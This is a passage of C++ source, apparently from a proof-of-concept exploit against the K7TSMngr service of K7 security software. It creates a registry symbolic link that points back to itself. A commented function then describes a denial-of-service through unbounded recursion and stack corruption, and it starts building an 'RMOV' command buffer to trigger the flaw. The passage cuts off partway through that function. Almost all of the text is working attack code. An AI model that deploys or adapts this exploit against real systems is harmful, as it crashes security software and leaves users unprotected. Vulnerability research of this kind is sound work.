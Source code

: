 ```C++
	WCHAR szRegNative[MAX_PATH] = { 0 };
	PSTR pszUserSid = GetUserSid();
	wsprintfW(szRegOriginalKey, L"%S\\aaa", pszUserSid);
	wsprintfW(szRegNative, L"\\Registry\\User\\%S\\aaa", pszUserSid);

	HKEY hKeyAaa;
	RegCreateKeyW(HKEY_USERS, szRegOriginalKey, &hKeyAaa);

	HMODULE hNtdll = GetModuleHandle(L"ntdll");
	fNtSetValueKey pfNtSetValueKey = (fNtSetValueKey)GetProcAddress(hNtdll, "NtSetValueKey");
	fRtlInitUnicodeString pfRtlInitUnicodeString = (fRtlInitUnicodeString)GetProcAddress(hNtdll, "RtlInitUnicodeString");

	HKEY hKeyBbb;
	RegCreateKeyExW(hKeyAaa, L"bbb", 0, NULL, REG_OPTION_CREATE_LINK, KEY_ALL_ACCESS, NULL, &hKeyBbb, NULL);

	UNICODE_STRING value_name;
	pfRtlInitUnicodeString(&value_name, L"SymbolicLinkValue");
	pfNtSetValueKey(hKeyBbb, &value_name, 0, REG_LINK, szRegNative, wcslen(szRegNative) * sizeof(WCHAR));

	return TRUE;
}


//
// Vulnerability
//		Type: 
//			Denial of Service / Stack Corruption
//
//		Description: 
//			In the RMov command (and more probably) when the registry key provided is enumerated it
//			recurses when it finds a new key to go into. However, there is no limit to the recursion
//			and therefore by either providing a long path, or linking a registry key so it points
//			back to itself, we can force this routine to infinitely recurse until it runs out of 
//			stack. At this point K7TSMngr crashes.
//
void Vuln_LogicFlaw_RMov()
{
	CHAR szSourceKey[MAX_PATH] = { 0 };
	CHAR szDestKey[MAX_PATH] = { 0 };
	PSTR pszUserSid = GetUserSid();

	// Make source and dest the same for now, doesn't really matter
	wsprintfA(szSourceKey, "HKCU\\%s\\aaa", pszUserSid);
	wsprintfA(szDestKey, "%s", szSourceKey);

	PVOID pData = AllocPrecise(0x8000);
	// 524D4F56		RMOV
	DWORD dwAction = 0x524D4F56;
	memcpy(pData, &dwAction, 4);
	PSTR pszData = (PSTR)(((PBYTE)pData) + 4);

	strcat(pszData, szSourceKey);
	pszData += strlen(szSourceKey) + 1;

	strcat(pszData, szDestKey);
	pszData += strlen(szDestKey) + 1;

	PDWORD pdwData = (PDWORD)pszData;
	*pdwData = 1;
```